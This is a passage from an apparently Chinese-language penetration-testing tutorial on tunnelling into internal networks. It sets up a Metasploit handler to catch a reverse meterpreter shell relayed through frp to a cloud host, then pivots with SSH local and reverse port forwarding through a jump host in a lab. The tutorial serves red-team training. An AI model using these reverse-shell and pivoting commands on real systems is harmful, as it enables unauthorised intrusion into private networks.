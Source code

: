 ```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1#设置监听ip，必须和frpc中的local_ip 一致
set lport 5000 #设置监听端口，与frpc中的local_port一致
run
```

⑧靶机运行 payload，msf 上线。此时云主机显示连接信息：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0RyJVNTCDsroN4478BgCUJqxGib9XDxaf5BO0VKuREgEEc1eYvnxfLYg/640?wx_fmt=png)msf 上线效果：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0cgpRl1RZLcr6T8QibMxZuxatyBzgKof87cvFhF5DfdXflORDwibOmVzA/640?wx_fmt=png)  

```
#参考文章：
https://blog.csdn.net/qq_38228830/article/details/85955955
```

**二、SSH 代理穿透内网**  

===================

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ZObSLalnyoib7iaWfFoo2DxOiatK5Xa5nq6Z0ZfxUWXic2b3MEQT03BenA/640?wx_fmt=png)

①假设 kali 无法访问 Win08（实际 kali 为 nat 模式是可以访问所有网段的）  
②利用红帽进行端口转发使 kali 能够访问到 Windows 2008  

**1.SSH 正向代理**  

-----------------

①kali(192.168.198.128) 连接红帽 192.168.198.131，同时将内网主机 192.168.1.10 的 8001 端口转发到本地 kali 192.168.198.128 的 8001 端口上

```
ssh -L 192.168.198.128:8001:192.168.1.10:8001 root@192.168.198.131 -p 22
#-L后面的IP是kali本地IP，可省略不写
#当跳板机红帽的ssh端口为默认端口22时，也可省略不写
#需要知道红帽的账号及密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ooiarMibxDxElrzgO2XPl5ELcQE0A6njsfNMJln68p0kgibHc4EXVqZTA/640?wx_fmt=png)  

②转发成功，这样 kali 在访问本机的 8001 端口, 通过 SSH 服务器红帽端口转发后, 实际访问的就是服务器 Windows2008 的 8001 端口。注意，在进行转发的时候语句 L 后面的 IP 省略不写，那么访问 127.0.0.1:8001 即可，如果写了 IP，就必须访问 IP 地址：192.168.198.128:8001  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0QAfCLGpibJgFbqvU8IgUUIvBd2uphPy0mkZhCk7a4ujppxZzvvicyO4A/640?wx_fmt=png)

**2.ssh 反向代理**
--------------

将 kali 本地端口镜像转发到红帽，所有访问 SSH 服务器（红帽）的镜像端口即是访问 kali 的端口。

①  kali 开启 80 http 服务

```
/etc/init.d/apache2 start
```
